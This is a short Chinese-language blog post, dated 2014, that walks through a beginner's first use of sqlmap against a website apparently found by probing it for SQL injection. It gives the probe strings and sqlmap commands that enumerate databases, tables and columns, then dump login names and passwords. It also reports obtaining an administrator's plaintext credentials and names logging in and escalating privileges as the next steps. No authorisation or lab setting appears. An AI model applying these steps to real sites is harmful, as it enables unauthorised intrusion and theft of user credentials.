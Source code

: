 title: 第一次使用 sqlmap
date: 2014-09-02 17:26
tags:
- 渗透测试
- SQL 注入
- kali
categories: SQL 注入
---

本人菜鸟一枚，第一次使用sqlmap，大神误入
准备工作：使用 '  and 1=1  and 1=2 找到可能存在sql注入的网站
<!--more-->

# I、查看数据库系统信息
在终端输入
```
sqlmap -u url --dbs --current-user
```
说明：url 换成你之前找到的可能存在sql注入的网址 ，文中的url都是这样，不在赘述

![](https://img.blog.csdn.net/20140902162816652)

# II、查看数据库表
```
sqlmap -u -url --tables
```

![](https://img.blog.csdn.net/20140902163603858)

会出现一个错误，询问是否使用常用的表来 查询数据库表，选择 y
sqlmap 会加载常用的数据库表命名字典，使用其中的表名执行sql语句，判断数据库中是否存在相应的表名

![](https://img.blog.csdn.net/20140902163959578)

输入运行的线程数，这个数字任意

期间可能会出现请求超时的情况，不用管，sqlmap会自动再次请求，直接等结果
![](https://img.blog.csdn.net/20140902164217546)

查询出两张表，可能数据库中不止这两张表

# III、查看表字段
```
sqlmap -u url -T uname --columns
```
说明：uname是上面查询出来的其中一张表

![](https://img.blog.csdn.net/20140902165805211)

# IV、查看数据
```
sqlmap -u -url -T uname -C login_name,pass,username --dump
```

![](https://img.blog.csdn.net/20140902172455071)

发现密码竟然是明文，得到管理员账号和密码了。。。。。。。
后续就是找后台地址，登录，然后继续提权，就不介绍了






